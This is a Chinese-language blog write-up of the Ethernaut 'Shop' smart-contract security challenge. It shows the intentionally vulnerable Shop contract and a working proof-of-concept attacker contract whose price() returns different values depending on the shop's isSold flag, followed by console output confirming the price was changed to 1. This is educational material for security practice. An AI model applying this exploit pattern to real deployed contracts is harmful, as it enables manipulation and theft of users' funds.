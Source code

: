 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-16'
date: 2022-12-19 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

#### 第二十一关Shop 思路与POC

#### 目标: 改变pirce变量数值使其低于100并能使isSold变量为true

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
//很明显问题在于你怎么实现这个price函数
interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);
 /*
根据第11关我们知道view/pure标识符就是限制函数不能够在不同的形参输入下改变结果(不能改变函数的状态),但是此处是并没有输入的。
那么如何绕过这个判断就成了一个脑筋急转弯的问题。
 我们需要找到一个flag能够使我们自己实现的price函数返回不同的结果. 显然这里的isSold就是最好的flag
 */
    if (_buyer.price() >= price && !isSold) {
    //卖出一个商品(根据用户输入改变存储数据)第一条代码是验证用户输入然后就应该立刻先完成存储数据的变更
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

##### poc思路:point_right:：我们仅需要根据商品售没售出这个布尔值更改price函数返回的结果即可

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Vulnerability/Shop.sol";

contract hackShop {
    Shop shop = Shop(0x686da930FE2Ccde0A069AFEA8aE676eF6B4aAd91);

    function hackbuy() public {
        shop.buy();
    }
   //根据isSold变量改变函数返回
    function price() external view returns (uint) {
       return shop.isSold() ? 1 : 101;
    }
}

```

```js
//查看price变量,成功修改
(await contract.price()).toString()
'1'
```


